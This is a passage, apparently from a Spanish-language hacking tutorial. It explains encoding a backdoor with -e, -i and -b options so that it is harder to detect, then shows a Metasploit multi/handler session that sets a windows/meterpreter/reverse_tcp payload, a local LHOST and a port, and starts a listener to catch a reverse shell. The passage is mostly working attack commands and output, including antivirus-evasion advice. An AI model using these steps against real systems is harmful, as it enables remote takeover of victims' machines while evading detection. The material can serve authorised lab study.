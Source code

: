 Mediante la opción -e realizamos una codificación de nuestro backdoor para que sea mas dificil de detectar, con -i realizamos varias vueltas de codificación, con -b eliminamos patrones que puedan dar problemas y lo demás se explica por si solo.

Ahora realizamos una sesion de escucha via metasploit usando el handler:

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options 

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set lhost 192.168.1.75 
lhost => 192.168.1.75
msf6 exploit(multi/handler) > set lport 1234
lport => 1234
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.1.75:1234 


```
